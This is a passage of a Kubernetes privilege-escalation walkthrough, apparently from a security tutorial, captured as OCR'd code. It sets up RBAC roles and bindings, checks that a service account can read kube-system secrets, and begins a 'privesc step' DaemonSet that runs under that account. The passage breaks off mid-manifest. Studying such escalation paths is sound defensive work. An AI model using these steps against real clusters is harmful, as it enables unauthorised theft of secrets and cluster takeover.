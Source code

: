 ```bash
- apiGroups: ["apps"]
resources: ["daemonsets"]
verbs: ["get", "list", "create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
name: test-rb
subjects:
- kind: User
name: Test
roleRef:
kind: Role
name: test-r
apiGroup: rbac.authorization.k8s.io
---
kind: ClusterRole
apiVersion: rbac.authorization.k8s.io/v1
metadata:
name: test-cr
rules:
- apiGroups: [""]
resources: ["secrets"]
verbs: ["get", "list", "delete", "patch", "create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
name: test-crb
subjects:
- kind: ServiceAccount
namespace: default
name: test-sa
apiGroup: ""
roleRef:
kind: ClusterRole
name: test-cr
apiGroup: rbac.authorization.k8s.io' | kubectl apply -f -

# Check test-sa can access kube-system secrets
kubectl --as system:serviceaccount:default:test-sa -n kube-system get secrets

# Check user User can get pods in namespace default
kubectl --as Test -n default get daemonsets

# Create a daemonset as user Test with the SA test-sa (privesc step)
echo "apiVersion: apps/v1
kind: DaemonSet
metadata:
name: alpine
namespace: default
spec:
selector:
matchLabels:
name: alpine
template:
metadata:
labels:
name: alpine
spec:
serviceAccountName: test-sa
automountServiceAccountToken: true
hostNetwork: true
```
